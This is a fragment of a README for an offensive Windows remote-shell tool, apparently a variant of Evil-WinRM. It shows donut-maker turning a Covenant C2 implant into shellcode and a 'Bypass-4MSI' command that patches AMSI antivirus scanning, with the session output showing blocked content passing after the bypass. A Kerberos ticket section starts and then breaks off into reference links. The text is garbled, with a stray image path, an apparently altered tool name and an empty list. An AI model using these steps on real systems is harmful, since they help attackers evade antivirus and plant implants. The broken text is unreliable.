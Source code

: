You can use this [donut-maker] to generate the payload.bin if you don't use Windows.
This script use a python module written by Marcello Salvati ([byt3bl33d3r]). It could be installed using pip: `pip3 install donut-shellcode`

```
python3 donut-maker.py -i Covenant.exe

   ___  _____
 .'/,-Y"     "~-.
 l.Y             ^.
 /\               _\_      Donuts!
i            ___/"   "\
|          /"   "\   o !
l         ]     o !__./
 \ _  _    \.___./    "~\
  X \/ \            ___./
 ( \ ___.   _..--~~"   ~`-.
  ` Z,--   /               \
    \__.  (   /       ______)
      \   l  /-----~~" /
       Y   \          /
       |    "x______.^
       |           \
       j            Y



[+] Donut generated successfully: payload.bin
```

 - Bypass-4MSI: patchs AMSI protection.
```
*evil-withinrm* PS C:\> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*evil-withinrm* PS C:\>
*evil-withinrm* PS C:\> Bypass-4MSI
[+] Success!

*evil-withinrm* PS C:\> #amsiscanbuffer
*evil-withinrm* PS C:\>
```

### Kerberos
 - First you have to sync date with the DC: `rdate -n <dc_ip>`

 - To generate ticket there are many ways:


[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-withinrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-3.6-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "Latest version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-withinrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-withinrm.svg "Ruby gem"